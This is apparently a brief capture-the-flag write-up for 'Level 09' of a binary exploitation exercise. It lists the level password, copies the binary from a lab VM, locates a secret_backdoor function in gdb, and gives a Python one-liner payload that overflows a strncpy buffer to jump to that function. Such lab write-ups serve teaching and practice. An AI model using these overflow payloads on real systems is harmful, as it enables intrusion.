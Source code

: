 # Level 09
*password : fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S*

## Analyze

```
scp -P 4242 level09@192.168.56.109:level09 binary/
```

## Buffer overflow

- exploit strncpy : n = buffer[180]
    - buffer[180] filled by username

```
(gdb) info funct secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
secret_backdoor address : 0x000055555555488c => 0x00 00 55 55 55 55 48 8c\
- find offset : 201 (= c9 in hexadecimal)
```
$ python -c 'print "\xc9" * 41 + "\n" + "\x41" * 201 + "\x8c\x48\x55\x55\x55\x55\x00\x00"' > /tmp/level09 ; cat /tmp/level09 | ./level09
```
